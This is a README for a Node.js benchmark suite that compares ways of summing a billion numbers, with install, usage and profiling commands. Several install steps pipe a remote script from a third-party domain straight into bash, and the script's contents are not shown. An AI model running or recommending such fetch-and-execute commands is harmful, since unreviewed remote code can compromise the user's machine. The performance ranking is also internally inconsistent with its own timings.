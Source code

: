 # 🚀 1 Billion Challenge

A high-performance Node.js benchmark suite that tests various approaches to process 1 billion numbers efficiently.

## 🎯 One-Command Installation

### Linux/macOS:

```bash
curl -sSL https://benchmark.isaksweb.xyz/install.sh | bash
```

### Windows (Git Bash/WSL):

```bash
curl -sSL https://benchmark.isaksweb.xyz/install.sh | bash
```

### Alternative with wget:

```bash
wget -qO- https://benchmark.isaksweb.xyz/install.sh | bash
```

## 🏃 Quick Start

After installation:

```bash
cd billion-challenge
pnpm test          # Quick test (100M numbers, ~30s)
pnpm full          # Full challenge (1B numbers, ~5min)
pnpm benchmark     # Detailed profiling with memory tracking
```

## 🏆 Expected Performance Ranking

1. **🥇 Mathematical Formula**: ~0.001ms (O(1) complexity)
2. **🥈 Assembly Style Loop**: ~2-5 seconds
3. **🥉 Parallel Workers**: ~1-3 seconds (depends on CPU cores)
4. **📊 Other Optimizations**: ~3-8 seconds

## 💡 Optimization Techniques Tested

- **Mathematical formulas** (O(1) complexity)
- **Loop unrolling** and SIMD-style processing
- **Worker thread parallelization** (uses all CPU cores)
- **Memory-efficient typed arrays** with batching
- **Cache-friendly data access** patterns
- **V8 JIT optimization** strategies

## 🛠️ Manual Installation

If you prefer to inspect before running:

```bash
# Download the installer
curl -O https://benchmark.isaksweb.xyz/install.sh
chmod +x install.sh

# Review the script
cat install.sh

# Run manually
./install.sh
```

## 📊 System Requirements

- **Node.js 18+** (required)
- **4GB+ RAM** (recommended for full challenge)
- **Multi-core CPU** (for parallel processing tests)
- **Internet connection** (for dependency installation)

## 🔧 Advanced Usage

### Custom Installation Directory

```bash
curl -sSL https://benchmark.isaksweb.xyz/install.sh | bash -s -- --dir=my-benchmark
```

### Development Mode

```bash
# After installation
cd billion-challenge
pnpm dev           # Run with TypeScript directly
pnpm build:dev     # Development build with sourcemaps
```

### Profiling and Analysis

```bash
pnpm benchmark     # Full profiling with GC tracking
pnpm profile       # V8 profiling (creates .prof files)

# Analyze V8 profile
node --prof-process isolate-*.log > profile.txt
```

## 📈 Sample Output

```
🏆 PERFORMANCE RANKING:
Rank | Method                | Time        | Ops/Second  | Memory   | Speedup
   1 │ 🏆Mathematical Formula  │      0.01ms │   1.00e+13  │   0.0MB  │   1.00x
   2 │   Assembly Style Loop   │   2,134.56ms │   4.68e+08  │  15.2MB  │   0.47x
   3 │   Parallel Workers      │   1,847.32ms │   5.41e+08  │  45.3MB  │   0.54x
```

## 🤝 Contributing

Found a faster algorithm? Submit a PR!

1. Fork this repository
2. Add your optimization to `src/billion-challenge.ts`
3. Test with `pnpm benchmark`
4. Submit a pull request with benchmark results

## 📝 License

MIT License - Feel free to use in your projects!

---

Built with ❤️ using TypeScript + esbuild for maximum performance
